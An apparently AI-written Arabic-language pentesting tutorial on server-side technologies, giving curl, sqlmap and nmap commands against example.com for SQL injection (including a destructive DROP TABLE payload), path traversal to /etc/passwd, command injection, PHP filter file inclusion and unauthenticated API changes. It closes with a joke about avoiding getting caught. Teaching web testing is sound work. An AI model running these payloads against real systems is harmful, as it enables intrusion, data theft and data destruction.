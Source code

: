 تمام، هنشرح **تقنيات جانب السيرفر (Server-Side Technologies - Databases, APIs, Backend Frameworks)** بنفس الطريقة السابقة: شرح مفصل وعملي مع أكواد وأوامر، مع تركيز على اختبار الاختراق (Pentesting)، وبعد كل جزء هخلّص بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال.

---

### **1. شرح تقنيات جانب السيرفر بالتفصيل:**

#### **أ. المفهوم الأساسي (What Are Server-Side Technologies):**
- تقنيات جانب السيرفر هي اللي بتشتغل على السيرفر، مش في المتصفح. بتتعامل مع الطلبات اللي جاية من العميل (Client) وبترد عليها بعد ما تعالج البيانات:
  - **Databases:** تخزين واسترجاع البيانات (زي MySQL).
  - **APIs:** واجهات لتبادل البيانات (زي REST).
  - **Backend Frameworks:** أدوات بتسهل كتابة الكود (زي Django أو Express).
- السيرفر هو اللي بيفكر ويشتغل، والعميل بس بيشوف النتيجة.

- **مثال عملي:**
  - تسجيل دخول:
    - طلب: `POST /login` مع `username=test&password=123`.
    - السيرفر يسأل الـ Database: `SELECT * FROM users WHERE username='test' AND password='123'`.
    - رد: `HTTP/1.1 200 OK` مع `"Welcome, test"`.

- **جانب عملي للبينتست:**
  - جرب تشوف رد السيرفر:
    - `curl -X POST -d "username=test&password=123" http://example.com/login`.
  - اكتشف التقنيات:
    - `curl -I http://example.com | grep Server` (نوع السيرفر).

- **خلاصة بالعامية:**
  - "جانب السيرفر ده المطبخ بتاع الموقع، هو اللي بيجهز الأكل ويخزن المكونات، لو دخلته هتعمل اللي إنت عايزه."

---

#### **ب. التقنيات ودورها (Technologies & Roles):**

1. **Databases (قواعد البيانات):**
   - بتخزن البيانات (مستخدمين، منتجات، إلخ) وبتجيبها لما تحتاجها.
   - أمثلة: MySQL، PostgreSQL، MongoDB.
   - مثال (MySQL):
     ```
     SELECT * FROM users WHERE id = 1;
     ```
   - عملي: لو مكشوفة: `mysql -h example.com -u root -p` (جرب تتصل).

2. **APIs (واجهات البرمجة):**
   - بتسمح للعميل يطلب بيانات أو يعدلها (زي REST أو GraphQL).
   - مثال (REST):
     ```
     GET /api/users/1 HTTP/1.1
     Host: example.com
     ```
     - رد: `{"id": 1, "name": "test"}`.
   - عملي: `curl http://example.com/api/users/1`.

3. **Backend Frameworks (إطار عمل الخلفية):**
   - بتسهل كتابة الكود وتنظيمه (زي PHP Laravel، Python Django، Node.js Express).
   - مثال (Express):
     ```
     app.get('/users/:id', (req, res) => {
       res.send({id: req.params.id, name: 'test'});
     });
     ```

- **جانب عملي للبينتست:**
  - Databases: جرب SQLi: `curl http://example.com/api/users/1' OR '1'='1`.
  - APIs: جرب معلمات غريبة: `curl http://example.com/api/users/1/../../etc/passwd` (Path Traversal).
  - Frameworks: لو لقيت `X-Powered-By: PHP/7.4` في الرؤوس، ابحث عن ثغرات النسخة.

- **خلاصة بالعامية:**
  - "الداتابيز هي المخزن، الـ API هي الشباك، والفريموورك هو الطباخ، لو كسرت حاجة منهم هتتحكم في المطبخ كله."

---

#### **ج. كيف تشتغل مع بعض (How They Work Together):**
- الـ Framework بيستقبل الطلب من العميل، بيحلله، بيجيب البيانات من الـ Database عبر الـ API أو الكود، وبيرد على العميل.
- مثال:
  - طلب: `GET /api/users/1`.
  - Framework (PHP):
    ```
    $id = $_GET['id'];
    $result = $db->query("SELECT * FROM users WHERE id = $id");
    echo json_encode($result);
    ```
  - رد: `{"id": 1, "name": "test"}`.

- **جانب عملي للبينتست:**
  - SQLi: `curl http://example.com/api/users/1' OR '1'='1` (لو رجع بيانات زيادة).
  - API: جرب `DELETE /api/users/1` بدون تصريح (سوء تهيئة).
  - Framework: لو بيرجع أخطاء: `curl http://example.com/api/users/1;ls` (Command Injection).

- **خلاصة بالعامية:**
  - "التلاتة دول زي فريق شغل، لو حد فيهم نام أو غلط، هتدخل تخلّص على السيستم كله."

---

#### **د. الثغرات المرتبطة (Vulnerabilities):**
- **SQL Injection:** لو الـ Database بتاخد إدخال غير محمي.
- **API Misconfiguration:** لو الـ API بيدي وصول زيادة.
- **Framework Bugs:** ثغرات في الإصدارات (زي Laravel أو Express).
- **Server Errors:** لو بيكشف تفاصيل (مثل Stack Traces).

- **مثال عملي:**
  - SQLi: `curl http://example.com/api/users/1' DROP TABLE users --`.
  - API: `curl http://example.com/api/admin` (لو بيدي وصول بدون Auth).

- **جانب عملي للبينتست:**
  - SQLi: `sqlmap -u http://example.com/api/users?id=1 --dbs`.
  - API: جرب طرق غير متوقعة: `curl -X PUT -d '{"admin":true}' http://example.com/api/users/1`.
  - Framework: لو `Server: Apache` مع `X-Powered-By: PHP/7.2`: ابحث عن CVEs.
  - Errors: `curl http://example.com/api/users/1' OR 'a'='b` (شوف لو بيرجع تفاصيل).

- **خلاصة بالعامية:**
  - "التقنيات دي لو مش متظبطة هتبقى زي الباب المفتوح، حقن الداتابيز، كسر الـ API، أو استغلال الفريموورك، وهتكون إنت الباشا."

---

### **خطوات عملية للاستغلال (Pentesting):**
1. **اكتشف التقنيات:**
   - `curl -I http://example.com | grep -i "server\|powered"` (نوع السيرفر والفريموورك).
   - `nmap -p 3306,5432 example.com` (كشف قواعد بيانات).

2. **اختبر الـ Databases:**
   - `curl http://example.com/api/users/1' OR '1'='1` (SQLi).
   - `sqlmap -u http://example.com/api/users?id=1 --tables`.

3. **هاجم الـ APIs:**
   - `curl http://example.com/api/users/1/../../etc/passwd` (Path Traversal).
   - `curl -X DELETE http://example.com/api/users/1` (بدون Auth).

4. **استغل الـ Frameworks:**
   - لو PHP: `curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index` (LFI).
   - لو Django: جرب Debug Mode: `curl http://example.com/abc123` (شوف لو بيرجع Stack Trace).

5. **تحلل الأخطاء:**
   - `curl http://example.com/api/users/1;whoami` (Command Injection).
   - ابحث عن ثغرات الإصدارات في CVE Databases.

---

### **خلاصة نهائية بالعامية:**
- "جانب السيرفر ده قلب الموقع، لو عرفت تضرب الداتابيز أو الـ API أو الفريموورك، هتتحكم في كل حاجة، بس خلّيك شاطر عشان متتركنش!"